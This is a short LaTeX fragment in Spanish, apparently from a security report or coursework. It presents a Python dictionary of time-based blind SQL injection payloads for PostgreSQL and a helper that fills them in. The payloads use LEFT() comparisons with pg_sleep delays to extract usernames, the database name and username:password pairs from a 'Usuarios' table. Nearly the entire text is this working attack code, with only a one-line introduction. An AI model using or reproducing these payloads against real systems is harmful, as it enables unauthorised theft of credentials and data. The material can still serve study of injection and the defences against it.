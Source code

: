 \documentclass[a4paper,12pt]{article}
\begin{document}
A continuación se presenta el archivo que contiene el diccionario de inyecciones, manteniendo el código exacto y agregando las explicaciones correspondientes a cada parte.

\begin{figure}[H]
    \begin{lstlisting}[language=Python]
        import textwrap

        # {i} es la longitud de la palabra
        # {p} es la palabra a comprobar
        diccionario_inyecciones = {
            "nombres de usuario": "' AND ( LEFT((SELECT string_agg(username, ',') FROM Usuarios), {i}) <> '{p}' OR ( LEFT((SELECT string_agg(username, ',') FROM Usuarios), {i}) = '{p}' AND ( SELECT NULL FROM pg_sleep(2) ) IS NULL ) ) --",
            "nombres de la base de datos": """  '
  AND (
    left(current_database(), {i}) <> '{p}' 
    OR (
      left(current_database(), {i}) = '{p}' 
      AND EXISTS (SELECT 1 FROM pg_sleep(1))
    )
  )
--
""",
            "Usarios y Contraseñas concatenados": """ ' AND (
    LEFT((SELECT string_agg(username || ':' || password, ',') FROM Usuarios), {i}) <> '{p}'
    OR (
      LEFT((SELECT string_agg(username || ':' || password, ',') FROM Usuarios), {i}) = '{p}'
      AND EXISTS (SELECT 1 FROM pg_sleep(1))
    )
    )
    --""",
        }


        def transformar_inyeccion(inyeccion: str, palabra: str, longitud: int):
            inyeccion = inyeccion.replace("{i}", str(longitud))
            inyeccion = inyeccion.replace("{p}", palabra)
            # Eliminar la indentación
            inyeccion = textwrap.dedent(inyeccion)
            # Reemplazar saltos de línea y tabulaciones por espacios
            inyeccion = ' '.join(line.strip() for line in inyeccion.splitlines())

            return inyeccion


        if __name__ == "__main__":
            print(transformar_inyeccion("nombres de usuario {i} {p}", "admin", 5))
    \end{lstlisting}
    \caption{Código del diccionario de inyecciones}
\end{figure}
\end{document}
